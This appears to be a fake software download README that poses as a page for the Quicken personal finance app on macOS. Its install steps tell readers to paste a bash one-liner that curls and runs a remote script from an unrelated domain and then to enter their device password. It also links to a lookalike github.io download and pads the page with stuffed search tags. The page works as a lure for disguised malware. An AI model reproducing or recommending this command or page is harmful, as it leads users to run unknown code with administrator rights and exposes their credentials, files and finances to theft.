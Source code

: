 # 💸 Quicken — Personal Finance Management Software for macOS

Quicken is a trusted personal finance application designed for macOS users. It provides powerful tools for budgeting, investment tracking, bill management, and financial planning, helping you stay on top of your money with ease.

## ✅ Download Quicken for macOS  
[![Download Quicken](https://img.shields.io/badge/Download-Quicken-blueviolet)](https://quicken-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


## 📦 What is Quicken?

Quicken is a comprehensive finance management software that offers budgeting, bill pay, investment tracking, and financial goal setting. Optimized for macOS, it enables secure synchronization across devices for seamless money management.

---

## ✨ Features

- 📊 Budget creation and expense tracking  
- 💼 Investment portfolio monitoring with detailed reports  
- 💡 Bill management and payment reminders  
- 🔒 Secure data syncing across Mac, iPhone, and iPad  
- 🏦 Manage loans, mortgages, and personal finances  
- 📈 Financial goal planning and progress tracking  
- 🖥️ Fully optimized for macOS with Retina display support  

---

## 💡 Why Use Quicken?

- 📅 Organize your finances with easy-to-use budgeting tools  
- 📈 Monitor investments and make informed decisions  
- 💳 Track bills and avoid late fees with reminders  
- 🔄 Sync your data securely across all Apple devices  
- 🛡️ Manage loans and mortgages within one app  

---

[![Download Quicken](https://img.shields.io/badge/Download-Quicken-blueviolet)](https://quicken-mac-download.github.io/.github)

---

## 🖼️ Preview

![Quicken Investments](https://www.quicken.com/sites/default/files/investments_0.png)  
![Quicken Deluxe](https://www.quicken.com/sites/default/files/quicken_deluxe_productSel.png)

---

## 📌 Tags

quicken, simplifi by quicken, quicken for mac, quicken help, simplifi quicken, quicken premier, quicken for business,  
quicken personal finance, quicken free, quicken loans jobs, quicken budgeting, quicken loans equity loan, quicken personal,  
my quicken loans, quicken loans career, quicken loans hiring, quicken loans job openings, quickencom, quicken help line,  
quicken for macbook air, quickbooks v quicken, quicken for macintosh, quicken loans mortgage rates, quicken loans heloc,  
quicken payroll, quicken mortgage, quicken heloc, quicken loans personal loan, quicken loans rates, rocket mortgage reverse mortgage

